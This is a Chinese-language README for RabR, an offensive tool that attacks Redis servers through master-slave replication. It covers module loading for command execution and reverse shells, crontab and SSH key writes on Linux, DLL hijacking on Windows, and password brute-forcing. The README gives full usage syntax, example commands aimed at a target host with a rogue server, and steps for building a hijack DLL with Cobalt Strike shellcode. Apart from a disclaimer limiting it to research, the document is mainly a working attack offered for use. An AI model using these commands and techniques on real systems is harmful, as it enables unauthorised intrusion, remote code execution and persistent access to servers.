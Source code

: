 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击、crontab写入攻击和ssh公钥写入攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp/linux/exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。    
- 本工具默认使用的crontab文件：exp/linux/exp.crontab，使用前务必根据自己实际的需求进行修改，或者直接通过命令行设置自己的crontab文件。  
- 本工具默认使用的ssh公钥文件：exp/linux/exp.authorized_keys，使用前务必自己重新生成以替换，或者直接通过命令行设置自己的ssh公钥文件。  
- 本工具默认使用的Windows恶意模块：exp/win/exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：exp/win/exp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你也可以编译自己的dbghelp.dll。  
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  redis-attack.py 攻击主程序
│  pwd.txt 爆破字典
├─exp
│  ├─linux
│  │      exp.authorized_keys 默认写入的Linux下的ssh公钥文件，用前需要修改
│  │      exp.crontab 默认写入的Linux下的crontab定时任务文件，用前需要修改
│  │      exp.so 默认导入的Linux Redis模块
│  └─win
│          dbghelp.dll 默认用于劫持Redis的dll
│          exp.dll 默认导入的Windows Redis模块
└─util 有用的程序（用于保存Redis数据） 
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-wf WINFILE2] [-lf LINUXFILE] [-lf2 LINUXFILE2] [-lf3 LINUXFILE3] [-a AUTH] [--brute] [-v]
Example:
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -lf3 id_rsa.pub

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default exp/win/dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp/win/exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp/linux/exp.so
  -lf2 LINUXFILE2, --linuxfile2 LINUXFILE2
                        Crontab file used to attack linux(/var/spool/cron/root), default exp/linux/exp.crontab(must be
                        modified before use)
  -lf3 LINUXFILE3, --linuxfile3 LINUXFILE3
                        SSH id_rsa.pub file used to attack linux(/root/.ssh/authorized_keys), use `ssh-keygen -t rsa`
                        to generate, default exp/linux/exp.authorized_keys(empty file, must be modified before use)
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack, dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](pic/image-20210708212712502.png)
![image-20210708190457889](pic/image-20210708190457889.png)
![image-20210708213302932](pic/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode   
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);  
3、修改活动解决方案为Realease，x64  
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值  
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5  
2021.07.08 发布v0.6,增加了Windows模块攻击  
2021.08.02 发布v0.6.3,增加了针对Linux的crontab写入攻击、ssh公钥写入攻击  
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  
 [浅析Linux下Redis的攻击面(一)](https://xz.aliyun.com/t/7974)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    
